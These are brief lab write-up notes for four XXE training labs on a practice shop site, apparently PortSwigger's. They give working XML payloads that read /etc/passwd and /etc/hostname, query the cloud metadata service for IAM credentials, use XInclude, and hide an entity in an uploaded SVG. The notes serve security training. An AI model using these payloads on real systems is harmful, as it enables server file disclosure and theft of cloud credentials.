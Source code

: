 ## Lab: Exploiting XXE using external entities to retrieve files

We are in home page

![Alt text](img.png)

Then click view details of any product

![Alt text](img-1.png)

-> Check stock

We open burpsuite to view request

![Alt text](img-3.png)

-> XML, so we inject

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

![Alt text](img-2.png)

## Lab: Exploiting XXE to perform SSRF attacks


We add external entity

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```

and replace productId with `&xxe;`

![Alt text](image-2.png)

and result

![Alt text](image-3.png)

we change external entity

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/"> ]>
```

![Alt text](image-4.png)

Continue, and external entity:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data"> ]>
```

![Alt text](image-5.png)

## Lab: Exploiting XInclude to retrieve files

![Alt text](image.png)

Set value of productId:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

![Alt text](image-1.png)

## Lab: Exploiting XXE via image file upload

We upload a svg image

![Alt text](image-6.png)

Then we create a svg file:

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

![Alt text](image-7.png)

![Alt text](image-8.png)